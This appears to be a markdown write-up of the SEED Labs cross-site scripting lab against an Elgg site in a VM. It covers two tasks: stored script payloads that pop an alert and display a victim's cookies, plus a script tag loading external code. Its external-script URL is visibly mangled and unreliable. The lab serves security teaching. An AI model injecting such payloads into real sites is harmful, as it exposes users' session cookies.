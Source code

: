 ```yaml
---
title: SEED Labs – Cross-Site Scripting Attack Lab
# author: Grace JyL
date: 2020-08-20 11:11:11 -0400
description:
excerpt_separator:
categories: [Lab, SEED]
tags: [Lab, XSS]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


# SEED Labs – Cross-Site Scripting Attack Lab

[toc]

---

## Brief
- The tasks are based on a web application called `ELGG` which is open source.
- The prebuilt vm called `seedubuntu` is used to host the web application and few users already created.
- Logging in to the web app will be done from a different vm on the same virtual box network.
- user11: attacker

---

## Task 1 : Post a malicious message to display an alert window

```js
<script>alert('XSS');</script>
```

---

## Task 2 : Posting a malicious message to display cookies
- When a user14 navigates to user11's account
- user14's cookie gets displayed.
- By design, the browser does not display the code, it runs it.

```js
// short code
<script>alert(document.cookie);</script>

// long code
<script type="text/javascript" src="http网站//www.example.com/myscripts.js"></script>
// store the JavaScript program in a standalone file
// save it with the .js extension
// refer to it using the src attribute in the <script> tag.
```

---